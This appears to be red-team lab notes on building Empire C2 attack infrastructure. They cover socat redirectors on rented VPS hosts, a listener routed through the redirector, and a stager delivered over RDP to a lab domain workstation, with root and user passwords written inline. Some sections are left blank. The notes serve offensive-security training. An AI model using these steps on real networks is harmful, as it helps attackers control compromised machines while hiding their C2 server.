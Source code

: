 #### Tags: [[12 - Command and Control (TA0011)]]
## Objectives

    Understand the use of redirectors in attack infrastructure
    Create a listener on Empire that will expect redirector routing
    Create stager payloads that will route through the redirector
    Execute the stager payload in the lab environment

## Overview
This lab will focus on the:
- Use of redirectors to create a buffer between the C2 server (Blue Space) and the Target network (Red Space). 
- We will create an account on a Virtual Private Server (VPS) vendor and 
- Provision two VPS's to redirect traffic through.
- Thus, we will leverage Empire C2 stager (Red Space) to perform routing via redirector (Grey Space) to reach the Empire listener (Blue Space).

![[Pasted image 20240310163005.png]]
#### Redirector Communication Pattern
1. C2 Listener will use Redirector IP Address
2. The VPS running Redirector will leverage socat to redirect traffic from Stager (incoming) to Listener (outgoing)
3. C2 Stager will callback to Redirector IP Address
### 1. Launch [[Empire C2#Create an Empire listener|Empire C2 & Setup Communication]]

1. Launch Empire by starting the server 
	1. `sudo ./ps-empire server`
2. Start the StarKiller from the terminal.
	1. `./starkiller-1.9.0.AppImage --no-sandbox`
3. Log into Starkiller UI
	1. `Url: https://localhost:1337 | Username: empireadmin | Password: password123
4. Create certificates for HTTPS, this is optional as Empire normally already has bundled default certificates, but let's do it for good measure.
	1. `cd /opt/Empire/setup/ && ./cert.sh
### 2. Provision VPS
```markdown
# Spawn VPS for redirection:
4-8-15.vpspawn.com with credentials root : 0wnTHEnet!
16-23-42.vpspawn.com with credentials root : ONth3NET?
```
![[Pasted image 20240310165118.png]]

### 3. socat Redirection
1. SSH to your new VPS as root and using one of the passwords provided by vpspawn.com. 
	1. `ssh root@4-8-15.vpspawn.com`
2. Take note of the eth0 adapter's IP, you will need this later.
	1. `ip a`
3. Then create a screen session and run socat using the syntax below:
	1. `screen -S socat443`
	2. `socat TCP4-LISTEN:443,fork TCP4:<C2-IP-Address or Hostname>:443`

Note: The C2 IP addr or hostname can be the value of your tun0 adapter.

Note: The use of screen is a safety mechanism because we can get back to shell that has our socat process if we get disconnected from our redirector.
- To detach from the screen session type` Ctrl+a then d`. 
- To view screen sessions run `screen -ls` 
- To reattach to a detached screen run `screen -r <screen session name>.`

### 4. Create Listener
- Create an Empire listener with a Host set to a redirector address


###### Note: The Host field must have the IP address or hostname of the redirector and not your tun0 adapter. 
- When building a stager this Host value will be used for communication, you do not want your C2 server's address or hostname here.
#### 5. Create Stager
- Create a stager payload

#### 6. Deliver Stager
- Execute the stager to create an Agent in the target environment via RDP: 
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp

#### 7. Agent Interaction

```markdown
```

### Conclusion


### Resources | Notes | Bonus

```markdown
```

#### Notes
- Add a link to Empire on how we are leveraging C2 stager to perform routing via redirector to reach the Empire listener





## Conclusion
